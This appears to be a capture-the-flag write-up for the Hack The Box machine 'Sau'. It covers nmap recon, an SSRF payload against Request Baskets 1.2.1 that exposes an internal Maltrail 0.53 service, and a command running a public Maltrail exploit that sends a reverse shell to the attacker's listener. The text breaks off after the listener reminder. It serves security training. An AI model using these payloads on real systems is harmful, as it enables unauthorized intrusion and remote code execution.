 # Box: Sau
# Level: Easy
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.10.11.224 -T4  -v -p-```

```
Nmap scan report for 10.10.11.224
Host is up (0.22s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 01 Oct 2023 14:43:16 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 01 Oct 2023 14:42:45 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 01 Oct 2023 14:42:46 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=10/1%Time=65198565%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2001\x20Oct\x20
SF:2023\x2014:42:45\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2001\x20Oct\x20
SF:2023\x2014:42:46\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Sun,\x2001\x20Oct\x202023\x2014:43:16\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=10/1%OT=22%CT=1%CU=37997%PV=Y%DS=2%DC=T%G=Y%TM=651985D
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O
OS:3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST11NW7%O6=M539ST11)WIN(W1=FE88%W2=
OS:FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 9.516 days (since Fri Sep 22 03:21:58 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   256.47 ms 10.10.14.1
2   251.55 ms 10.10.11.224

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  1 15:44:42 2023 -- 1 IP address (1 host up) scanned in 1060.49 seconds
```
From our nmap scan we have 2 open ports. Port 22 which runs ssh and Port 55555 which runs http. Our enumeration today will be focused on the port running the http service



# Enumeration (Port 55555)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3df190a9-3e07-47fd-9452-6280f3319d4c)

This webpage is being powered by ```request baskets``` with version ```1.2.1```

<font color="Green">Request Baskets is a web service designed to capture arbitrary HTTP requests and facilitate their inspection through either a RESTful API or a straightforward web user interface
</font>

Doing a little research, I found out this version of ```request baskets``` is vulnerable to ```Server-Side Request Forgery(SSRF)```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e56e0390-e3a4-41b4-99f1-75b045d0e84a)

Lets exploit



# Exploitation

Checking the available POC's, I found [this](https://notes.sjtu.edu.cn/s/MUUhEymt7#)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e346694a-eb05-4c1a-91bc-41d5536469dc)

So, this is how our payload will look like.

Lets try to create a basket,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/f25a9cc7-bb72-4f6a-a26a-54253fbfdf82)

capturing this request using burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4c1a7e67-f173-46b9-9801-488e88335d02)

nice nice.

Lets create another basket ```bankai``` from burpsuite, but this time we'll be addding the payload

```json
{
  "forward_url": "http://127.0.0.1:80/",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```
Doing this,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/23125438-d22d-4105-a973-a75f00fd1167)

cool, now that we've created a new basket ```bankai```, we can navigate to the url ```http://10.10.11.224:55555/bankai``` to view it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/247238d5-085a-4a18-ab2f-19863aded691)

So, we get this webpage powered by ```maltrail 0.53```. This version of ```maltrail``` has a public exploit. You can download it [here](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py)

Running the downloaded exploit,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9d9ded4b-5353-4fc7-978d-ac061158fdf5)

We need to provide those parameters.

Doing that,

command:```python exploit.py 10.10.14.111 1234 http://10.10.11.224:55555/bankai```

Ensure you have a netcat listener running before running the above command,





















